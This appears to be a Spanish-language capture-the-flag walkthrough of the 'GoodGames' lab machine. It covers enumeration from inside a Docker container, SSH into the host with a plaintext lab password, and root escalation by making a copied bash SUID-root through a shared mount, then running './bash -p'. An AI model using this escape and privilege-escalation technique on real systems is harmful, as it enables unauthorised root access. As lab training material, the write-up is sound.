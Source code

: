 # Enumeracion
Tenemos la sospecha de que estamos en un contenedor, por el nombre despues de root@3a453ab39d3d
Confirmamos que estamos en un contenedor usando [[hostname -I]] somos la ip 172.19.0.2
![[Goodgames16.png]]

Usamos el comando *[[mount]] | grep augustus* y nos dice que la particion del disco duro esta montada en /dev/sda1, en el /etc/group no figura el grupo 1000, por lo tanto pensamos que es un grupo de la maquina host. y en el comando [[route -n]] nos muestra que a la direccion ip 172.19.0.1 es donde va todo nuestro trafico. Asi que asumimos que es la ip de la maquina host
![[Goodgames17.png]]
Mandamos un ping a 172.19.0.1, y nos responde
![[Goodgames18.png]]

Nos vamos a mandar el archivo [[portScanner.sh a nivel local]] desde nuestra maquina a la maquina victima

Nos da como resultado al ejecutar el escaneo de puertos, que tiene el 22 y el 80 abiertos
![[Goodgames20.png]]

Como vemos que es el puerto 22 de SSH abierto, vamos a intentar conectarnos con las credenciales de augustus que tenemos
```
ssh augustus@172.19.0.1
Contraseña: superadministrator
```

![[Goodgames21.png]]


# Explotacion con SUID


*En la maquina de augustus:*
	Usamos el comando `cp /bin/bash .` en el directorio /home/augustus
*Desde el contendor:*
	 `chown root:root bash`
	 `chmod 4755 bash`
Ahora volvemos a entrar a la maquina de augustus, con ssh, y ejecutamos la bash con privilegios, ya seriamos root, asi que despues cateamos el archivo con la flag
```shell
./bash -p
cat /root/root.txt
```
![[Goodgames22.png]]
